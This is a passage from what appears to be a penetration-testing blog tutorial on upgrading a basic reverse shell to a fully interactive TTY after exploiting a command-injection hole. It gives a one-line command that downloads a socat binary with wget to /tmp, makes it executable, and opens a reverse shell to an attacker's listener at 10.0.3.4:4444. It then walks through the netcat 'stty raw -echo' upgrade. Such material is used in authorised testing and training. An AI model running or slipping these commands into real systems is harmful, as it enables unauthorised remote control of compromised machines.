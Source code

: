 If socat isn't installed, you're not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

https://github.com/andrew-d/static-binaries

With a command injection vuln, it's possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
On Kali, you'll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It's a full terminal. Pretty sweet.

![Socat tty](/images/2017/07/socat_tty.png)

# Method 3: Upgrading from netcat with magic
I watched Phineas Fisher use this technique in his hacking video, and it feels like magic. Basically it is possible to use a dumb netcat shell to upgrade to a full TTY by setting some `stty` options within your Kali terminal.

First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`

![Background shell](/images/2017/07/background_netcat.png)

While the shell is in the background,  now examine the current terminal and STTY info so we can force the connected shell to match it:

![Term and STTY info](/images/2017/07/term_stty_info.png)

The information needed is the TERM type (*"xterm-256color"*) and the size of the current TTY (*"rows 38; columns 116"*)

With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command:
```bash
stty raw -echo
```
With a raw stty, input/output will look weird and you won't see the next commands, but as you type they are being processed.

Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.

![Foreground and reset](/images/2017/07/fg_reset.png)

*Note: I did not type the `nc` command again (as it might look above). I actually entered `fg`, but it was not echoed. The `nc` command is the job that is now in the foreground. The `reset` command was then entered into the netcat shell*

After the `reset` the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)
